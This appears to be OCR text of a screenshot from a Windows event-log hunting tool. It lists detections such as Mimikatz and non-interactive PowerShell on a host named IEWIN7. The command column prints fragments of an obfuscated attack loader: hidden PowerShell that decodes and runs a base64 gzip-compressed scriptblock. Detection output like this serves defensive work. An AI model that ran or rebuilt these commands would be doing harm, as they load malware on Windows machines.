     │                     │    │                                          │                                │                                                    │ den -c &([scriptblock]::create((New-Object IO.Stre │
    │                     │    │                                          │                                │                                                    │ amReader(New-Object IO.Compression.GzipStream((New │
    │                     │    │                                          │                                │                                                    │ -Object IO.MemoryStream(,[Convert]::FromBase64Stri │
    │                     │    │                                          │                                │                                                    │ ng(''H4sIAIuvyFwCA7VW+2/aSBD+OZH6P1gVErZCMA60aSJVu │
    │                     │    │                                          │                                │                                                    │ jVPE5xADITHodNir+0lay/Ya169/u83Btym1/SuPeksHruzM7M │
    │                     │    │                                          │                                │                                                    │ z33w7azcJbUF5KM2DxU1J+vTm/KyLIxxIco6MClKOmsrZGQhz5 │
    │                     │    │                                          │                                │                                                    │ Er6KMlTtFzWeIBpOLu9rSZRREJxnBebRKA4JsGcURLLivSn9OS │
    │                     │    │                                          │                                │                                                    │ TiFw+zBfEFtInKfdHscn4HLOT2q6KbZ9Ilyh00rUOt3EaSdFaM │
    │                     │    │                                          │                                │                                                    │ irk/O+/55XppTYr1lcJZrGct3axIEHRYSyvSJ+VdMP+bknkvEn │
    │                     │    │                                          │                                │                                                    │ tiMfcFcUnGpavioMwxi65B29rYhLhcyfOK5ADfCIikiiUIJvU/ │
    │                     │    │                                          │                                │                                                    │ Lgo52HYjbiNHCcicZwvSNPU8XQ2+02ennZ9TEJBA1I0QkEivrR │
    │                     │    │                                          │                                │                                                    │ ItKY2iYstHDqMPBJ3BlaWiGjozRQF1Nb8mci5MGGsIP2KG/meb │
    │                     │    │                                          │                                │                                                    │ DLMftZIfmkEWl0RKYW0gn/P0uROwsjRLv9KmFBzBZ5j3QGyz2/ │
    │                     │    │                                          │                                │                                                    │ O35y7GUVWdyP6kiEwOpsexgQCk7s8pg...                 │
    │                     │    │                                          │                                │                                                    │                                                    │
    │                     │    │                                          │                                │                                                    │ (use --full to show all content)                   │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 20:26:52 │ 1  │ ‣ Mimikatz Command Line                  │ "IEWIN7"                       │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ powershell.exe -nop -w hidden -noni -c "if([IntPtr │
    │                     │    │ ‣ FromBase64String Command               │                                │ ell.exe                                            │ ]::Size -eq 4){$b='powershell.exe'}else{$b=$env:wi │
    │                     │    │ Line                                     │                                │                                                    │ ndir+'\syswow64\WindowsPowerShell\v1.0\powershell. │
    │                     │    │ ‣ Non Interactive PowerShell             │                                │                                                    │ exe'};$s=New-Object System.Diagnostics.ProcessStar │